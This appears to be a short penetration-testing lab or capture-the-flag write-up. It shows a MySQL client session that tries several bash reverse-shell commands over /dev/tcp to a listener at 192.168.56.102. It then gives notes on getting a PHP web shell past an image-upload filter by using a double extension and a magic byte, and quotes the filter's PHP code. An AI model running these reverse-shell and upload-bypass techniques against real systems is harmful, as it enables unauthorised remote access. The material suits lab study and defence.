 ```bash
MySQL [(none)]> system
ERROR: Usage: \! shell-command
MySQL [(none)]> system ls
config.php  login.php
MySQL [(none)]> system bash -i >& /dev/tcp/192.168.56.102/808 0>&1
sh: 1: Syntax error: Bad fd number
MySQL [(none)]> system sh -i >& /dev/tcp/192.168.56.102/808 0>&1
sh: 1: Syntax error: Bad fd number
MySQL [(none)]> system bash -c "bash -i >& /dev/tcp/192.168.56.102/808 0>&1"
```

#### upload via web

use creds from DB. Login.

upload page checks 3 things.

- Extensions
- image file type with ['type']
- mime data with getimagesize

so upload a shell.jpg.php with a magic byte

```php
$filename  = $_FILES['file']['name'];
$filetype  = $_FILES['file']['type'];
$uploaddir = 'upload/';
$file_ext  = strrchr($filename, '.');
$imageinfo = getimagesize($_FILES['file']['tmp_name']);
$whitelist = array(".jpg",".jpeg",".gif",".png");
if (!(in_array($file_ext, $whitelist))) {
    die('Not allowed extension, please upload images only.');
}
if(strpos($filetype,'image') === false) {
    die('Error 001');
}
if($imageinfo['mime'] != 'image/gif' && $imageinfo['mime'] != 'image/jpeg' && $imageinfo['mime'] != 'image/jpg'&& $imageinfo['mime'] != 'image/png') {
    die('Error 002');
}
if(substr_count($filetype, '/')>1){
    die('Error 003');
}
```
